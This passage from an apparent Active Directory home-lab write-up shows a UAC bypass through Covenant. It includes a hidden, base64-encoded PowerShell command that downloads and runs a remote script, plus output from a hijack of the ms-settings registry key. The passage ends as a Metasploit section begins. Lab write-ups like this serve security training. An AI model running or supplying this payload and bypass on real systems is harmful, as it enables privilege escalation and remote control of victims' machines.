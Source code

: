 ## 5. UAC Bypass (Covenant)

- In covenant, Import PowerShell script named [Helper.ps1](https://github.com/microsoft/PowerShellForGitHub/blob/master/Helpers.ps1).
- Run the cmd: ` PowerShell helper -custom "cmd.exe /c <powershell launcher command>"`
- Few seconds after sending the command we get a new Grunts to our Covenant.

```powershell
(singhx) > PowerShellImport

PowerShell Imported

[07/24/2023 18:28:20 UTC] PowerShell completed

(singhx) > powershell helper -custom "cmd.exe /c powershell -Sta -Nop -Window Hidden -EncodedCommand aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEAMAA3AC4AMQA4ADYALwByAGUAdgBlAC4AcABzADEAJwApAA=="

    Hive: HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open

Name                           Property                                                                                 

----                           --------                                                                              

command                                                                                                                 
DelegateExecute : 

PSPath          : Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open\command

PSParentPath    : Microsoft.PowerShell.Core\Registry::HKEY_CURRENT_USER\Software\Classes\ms-settings\Shell\Open

PSChildName     : command

PSDrive         : HKCU

PSProvider      : Microsoft.PowerShell.Core\Registry
```

![image](https://github.com/thesinghsec/Active-Directory--Home-Lab-/assets/126919241/ff826b3c-61f9-442b-bd4f-f04a13072af0)

## 6. UAC Bypass (Metasploit)

- As we already have a session of low-level users let's start interacting with it.
- Run the following commands below:
